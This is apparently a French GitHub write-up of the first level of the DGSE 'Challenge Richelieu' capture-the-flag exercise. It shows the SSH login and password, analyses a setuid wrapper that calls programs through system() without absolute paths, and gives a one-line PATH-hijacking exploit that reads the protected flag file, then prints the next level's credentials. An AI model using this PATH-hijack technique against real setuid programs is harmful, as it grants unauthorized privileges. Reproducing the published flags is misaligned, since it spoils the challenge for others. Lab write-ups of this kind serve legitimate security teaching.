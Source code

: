 # Challenge Richelieu de la DGSE - défi 1

https://www.challengecybersec.fr

## Pour se connecter à la machine du défi

```
ssh defi1.challengecybersec.fr -l defi1 -p 2222

mot de passe : DGSE{2f77c517b06f1cd1ce864f79f41f25ca8874413c8c1204f7ec9c6728c87f270a}
```

## Le challenge

```
defi1@AttrapeLeDrapeau:~$ ls -al
total 44
drwxr-xr-x 1 defi1         defi1         4096 May 10 10:50 .
drwxr-xr-x 1 root          root          4096 May 10 10:50 ..
-rw-r--r-- 1 defi1         defi1          220 May 15  2017 .bash_logout
-rw-r--r-- 1 defi1         defi1         3526 May 15  2017 .bashrc
-rw-r--r-- 1 defi1         defi1           32 May 10 10:50 .gdbinit
-rw-r--r-- 1 defi1         defi1          675 May 15  2017 .profile
-rw-r--r-- 1 defi1         defi1            7 May 10 10:50 .vimrc
-r-------- 1 defi1-drapeau defi1-drapeau  133 Apr 26 14:06 drapeau.txt
-r-sr-sr-x 1 defi1-drapeau defi1-drapeau 8752 May 10 10:50 prog.bin
```

Il y a un exécutable `prog.bin` _setuid_ et un fichier en lecture uniquement pour l'utilisateur `defi1-drapeau`.
Le but est donc d'utiliser ce programme pour accéder au fichier `drapeau.txt`.

C'est donc un _Capture The Flag_ (CTF) classique.

```
defi1@AttrapeLeDrapeau:~$ ./prog.bin
#################################################
##    Bienvenue dans ce lanceur (_wrapper_)    ##
#################################################
Ce logiciel vous permet de lancer ces programmes utiles simplement...
Menu :
   -> 1 : Affichage de la date et de l'heure actuelle
   -> 2 : Affichage du nombre de secondes écoulées depuis le 01/01/1970 (Epoch)
   -> 3 : Affichage du train
   -> 4 : Affichage du calendrier du mois en cours
```

## La vulnérabilité

`prog.bin` lance des binaires avec `system()`:
* choix 1: `date '+Nous sommes le %d/%m/%Y et il est %H:%M:%S'`
* choix 2: `date '+Nombre de secondes depuis Epoch : %s'`
* choix 3: `sl`
* choix 4: `cal`

Cela peut être observé avec [Ghidra](https://ghidra-sre.org), gdb, ou l'intuition.
Le chemin des binaires n'est pas absolu: la variable d'environnement `PATH` est donc utilisée.

### Note

Pour récupérer `./prog.bin` ou autre depuis la connexion ssh du challenge:

```bash
ssh defi1.challengecybersec.fr -l defi1 -p 2222 > prog.hex
DGSE{2f77c517b06f1cd1ce864f79f41f25ca8874413c8c1204f7ec9c6728c87f270a}
hexdump -ve '16/1 "%02x " "\n"' prog.bin
exit
grep -E "^([0-9a-z]{2} )+" prog.hex | xxd -r -p > prog.bin
chmod a+x prog.bin
```

## L'attaque

Il suffit d'altérer le `PATH` and ajoutant un programme `sl` (par exemple) avant `/usr/bin`. Ce programme sera exécuté avec les privilèges de l'utilisateur `defi1-drapeau` et permettra de consulter le fichier `drapeau.txt`.
```bash
echo "cat drapeau.txt" > $HOME/sl; chmod a+x $HOME/sl; PATH=$HOME:$PATH ; echo 3 | ./prog.bin
```

## Le drapeau

```
Suite du challenge Richelieu :

ssh defi2.challengecybersec.fr -l defi2 -p 2222

mot de passe : DGSE{H#M?W)el{0YZ-)77/C#ogrp}k4&EbP}
```

[Suite...](../defi2/README.md)

---
*rene-d 26 mai 2019*
